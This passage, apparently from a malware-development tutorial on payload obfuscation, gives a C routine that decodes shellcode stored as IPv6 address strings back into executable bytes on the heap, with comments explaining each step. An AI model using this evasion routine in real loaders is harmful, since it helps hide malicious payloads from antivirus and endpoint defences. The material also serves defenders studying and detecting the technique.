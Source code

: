 ```
	// Getting the real size of the shellcode which is the number of IPv6 addresses * 16
	sBuffSize = NmbrOfElements * 16;


	// Allocating memory which will hold the deobfuscated shellcode
	pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, sBuffSize);
	if (pBuffer == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	TmpBuffer = pBuffer;

	// Loop through all the IPv6 addresses saved in Ipv6Array
	for (int i = 0; i < NmbrOfElements; i++) {

		// Deobfuscating one IPv6 address at a time
		// Ipv6Array[i] is a single IPv6 address from the array Ipv6Array
		if ((STATUS = pRtlIpv6StringToAddressA(Ipv6Array[i], &Terminator, TmpBuffer)) != 0x0) {
			// if it failed
			printf("[!] RtlIpv6StringToAddressA Failed At [%s] With Error 0x%0.8X", Ipv6Array[i], STATUS);
			return FALSE;
		}

		// 16 bytes are written to TmpBuffer at a time
		// Therefore Tmpbuffer will be incremented by 16 to store the upcoming 16 bytes
		TmpBuffer = (PBYTE)(TmpBuffer + 16);

	}

	// Save the base address & size of the deobfuscated payload
	*ppDAddress  = pBuffer;
	*pDSize      = sBuffSize;

	return TRUE;

}

```
The image below shows the deobfuscation process successfully running.

[![](21%20Payload%20Obfuscation%20-%20IPv4%20IPv6Fuscation%209f7b77eecf01460d8d898195f70f4790/ipv6fuscation.png)](21%20Payload%20Obfuscation%20-%20IPv4%20IPv6Fuscation%209f7b77eecf01460d8d898195f70f4790/ipv6fuscation.png)
